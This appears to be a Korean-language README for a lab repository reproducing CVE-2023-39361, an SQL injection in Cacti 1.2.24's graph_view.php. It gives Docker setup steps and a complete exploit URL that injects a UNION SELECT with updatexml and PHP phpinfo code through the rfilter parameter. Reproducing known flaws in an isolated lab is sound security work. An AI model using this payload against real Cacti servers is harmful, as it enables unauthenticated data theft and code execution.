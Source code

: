 # CVE-2023-39361 - Cacti SQL Injection PoC

## 🔍 개요
이 저장소는 Cacti 1.2.24 버전의 `graph_view.php` 파일에서 발생하는 SQL Injection 취약점(CVE-2023-39361)을 재현하기 위한 PoC입니다. 이 취약점은 `rfilter` 파라미터가 부적절하게 필터링되며, 공격자가 임의의 SQL 쿼리를 삽입해 데이터베이스 정보를 유출할 수 있게 됩니다.

## ⚙️ 환경 구성
PoC는 Docker 및 Docker Compose를 사용하여 구성됩니다. 아래 명령어를 통해 재현 환경을 빠르게 구성할 수 있습니다.

```bash
docker compose up -d 
```

### 📁 주요 파일 설명
- `docker-compose.yml`: 웹 서버 및 MySQL 데이터베이스 컨테이너를 구성합니다.
- `entrypoint.sh`: Apache 서버를 실행하고 Cacti 초기 설정을 도와주는 스크립트입니다.

## 🧪 취약점 재현 방법

### 1. 브라우저로 접속
```
http://localhost:8080
```

Cacti 설치 페이지가 나타나며, DB 정보는 아래와 같이 설정되어 있습니다:
- DB Host: db
- DB User: cacti
- DB Password: cacti

설치를 완료한 뒤 로그인 화면으로 이동합니다.

### 2. phpinfo 통한 원격 코드 실행 테스트 
```
http://localhost:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,3,4,5,6,updatexml(rand(),concat(0x7e,"<?php%20phpinfo();?>",0x7e),null),8,9,10%23
```
![Exploit 결과](1.png)

이 요청을 통해 내부 phpinfo 코드가 삽입되어 실행되며, 로그인 화면이 phpinfo 페이지처럼 변경되는 것을 확인할 수 있습니다.


## 🛡️ 영향 범위
- Cacti 1.2.24 이하 버전에서 영향을 받습니다.
- 인증 없이 익스플로잇 가능하며, SQL Injection을 통해 인증 우회 및 원격 코드 실행까지 가능합니다.

## 📚 참고
- https://nvd.nist.gov/vuln/detail/CVE-2023-39361
- https://github.com/vulhub/vulhub/tree/master/cacti/CVE-2023-39361

---


